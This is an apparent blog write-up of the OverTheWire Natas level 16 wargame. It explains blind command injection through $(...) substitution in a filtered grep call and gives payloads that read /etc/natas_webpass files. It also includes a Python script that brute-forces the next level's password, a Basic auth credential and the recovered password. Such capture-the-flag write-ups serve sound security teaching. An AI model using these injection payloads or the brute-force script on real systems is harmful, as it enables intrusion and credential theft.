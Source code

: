 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 16"
date:   2015-09-25
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 16 > Level 17

![natas16-01](/img/otw-natas/natas16-01.png)

```
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

This challenge appears identical to [Natas 10]({% post_url 2015-09-19-otw-natas-10 %}) with the exception of quotes around `key` in the `grep` statment, and the banning of the double-quote character from the input.  After a little thought, the most obvious capability missed by the filter is the ability to perform command substitution using `$(cmd)`.

I'll cover this in the order of what I found and what I tried. A journey, not unlike Lord of the Rings but also nothing like Lord of the Rings.

The first thing I noticed is that we can view the entire contents of the dictionary if we use a command which returns nothing to stdout. A command not in PATH is a good example of this, as the error message is displayed to the user via stderr. This isn't of much consequence now but it will be important later.

![natas16-02](/img/otw-natas/natas16-02.png)

The dictionary is of a decent size. If we search for the whatever the first unknown character of the password is, there is very likely only one letter which appears in every result. It would not be hard to find and we could repeat this step for each character in the password.

A proof of concept using the first character for natas16, which we know.  Search for `$(head -c 1 /etc/natas_webpass/natas16)`.

![natas16-03](/img/otw-natas/natas16-03.png)

The fact the letter 'W' alone is a result helps considerably. Unforunately the `grep` hardcoded into the page is a case insensitive search. Worse yet, numbers do not appear in the dictionary.

![natas16-04](/img/otw-natas/natas16-04.png)

That idea is dead.

We need a way to get a yes/no answer to the question of whether a candidate character appears in a given position of the password. Recall the first thing we noticed, that we can make commands with no output.  The idea:

Prepend a `grep` to a prefix-free known word that appears in the dictionary, `$(<grep>)<word>`.  If our `grep` does not match, it will return nothing, the search will be only for `<word>`, and we'll see a result.  If it does match, the password will be returned by the `grep` command, and the search will be for `<password><word>` which will fail and nothing will be returned.  By prefix-free I mean don't use 'hat' because 'what' is also in the dictionary which will break our logic.

POC this using the dictionary word 'penetration' and the password for natas16 which begins with 'W.'

Search for 'W' which matches our `grep` and should return no result from their `grep`: 

```
$(grep ^W /etc/natas_webpass/natas16)penetration
```

![natas16-05](/img/otw-natas/natas16-05.png)

Search for 'h', which does not match our `grep` resulting in a match with their `grep`: 

```
$(grep ^h /etc/natas_webpass/natas16)penetration
```

![natas16-06](/img/otw-natas/natas16-06.png)

That's it! Modify the code from [Natas 15]({% post_url 2015-09-21-otw-natas-15 %}) to suit the new payload.

```
import socket

HOST = "natas16.natas.labs.overthewire.org"
PORT = 80
HEAD = """GET /?needle=$(grep%20^{c}%20/etc/natas_webpass/natas17)penetration&submit=Search HTTP/1.1
Host: natas16.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==
Content-Type: application/x-www-form-urlencoded\r\n\r\n"""
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

def natas16(p):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))

    s.send(HEAD.format(c=p))

    r = s.recv(8192)
    s.close()

    if "penetration" not in r:
        return True
    return False

p = ''
for i in xrange(64):
    f = False
    for c in ALPH:
        print p, c
        if natas16(p + c):
            f = True
            p = p + c
            break
    if not f:
        break

print "DONE"
print p
```

Success!  This time an action shot. It's not very pretty, but when the output from each iteration is small and the process relatively slow, seeing each tick go by is helpful for gauging speed and correct operation.

![natas16-07](/img/otw-natas/natas16-07.png)

Eventually, 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
